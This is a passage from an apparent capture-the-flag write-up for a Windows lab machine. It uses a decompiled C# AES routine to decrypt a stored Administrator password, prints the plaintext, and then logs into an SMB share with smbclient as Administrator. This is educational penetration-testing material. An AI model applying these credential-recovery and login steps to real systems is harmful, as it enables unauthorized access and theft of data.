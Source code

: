 ```csharp
      byte[] buffer = Convert.FromBase64String(cipherText);
      byte[] bytes3 = new Rfc2898DeriveBytes(passPhrase, bytes2, passwordIterations).GetBytes(checked ((int) Math.Round(unchecked ((double) keySize / 8.0))));
      AesCryptoServiceProvider cryptoServiceProvider = new AesCryptoServiceProvider();
      cryptoServiceProvider.Mode = CipherMode.CBC;
      ICryptoTransform decryptor = cryptoServiceProvider.CreateDecryptor(bytes3, bytes1);
      MemoryStream memoryStream = new MemoryStream(buffer);
      CryptoStream cryptoStream = new CryptoStream((Stream) memoryStream, decryptor, CryptoStreamMode.Read);
      byte[] numArray = new byte[checked (buffer.Length + 1)];
      int count = cryptoStream.Read(numArray, 0, numArray.Length);
      memoryStream.Close();
      cryptoStream.Close();
      return Encoding.ASCII.GetString(numArray, 0, count);
    }
    
    public static void Main(string[] args)
    {
        Console.WriteLine (DS("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4="));
    }
}
````
````
XtH4nkS4Pl4y1nGX
````

Giving us the decypted password: `XtH4nkS4Pl4y1nGX`.

As we did before, let's use these credentials to login with smbclient.

```
smbclient //$IP/Users/ -U Administrator%XtH4nkS4Pl4y1nGX
```

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 25 23:04:21 2020
  ..                                  D        0  Sat Jan 25 23:04:21 2020
  Administrator                       D        0  Fri Aug  9 15:08:23 2019
  C.Smith                             D        0  Sun Jan 26 07:21:44 2020
  L.Frost                             D        0  Thu Aug  8 17:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 17:02:50 2019
  TempUser                            D        0  Wed Aug  7 22:55:56 2019

		5242623 blocks of size 4096. 1839990 blocks available
smb: \> cd Administrator
smb: \Administrator\> ls
  .                                   D        0  Fri Aug  9 15:08:23 2019
  ..                                  D        0  Fri Aug  9 15:08:23 2019
  flag.txt - Shortcut.lnk             A     2384  Fri Aug  9 15:10:15 2019

		5242623 blocks of size 4096. 1839990 blocks available
```
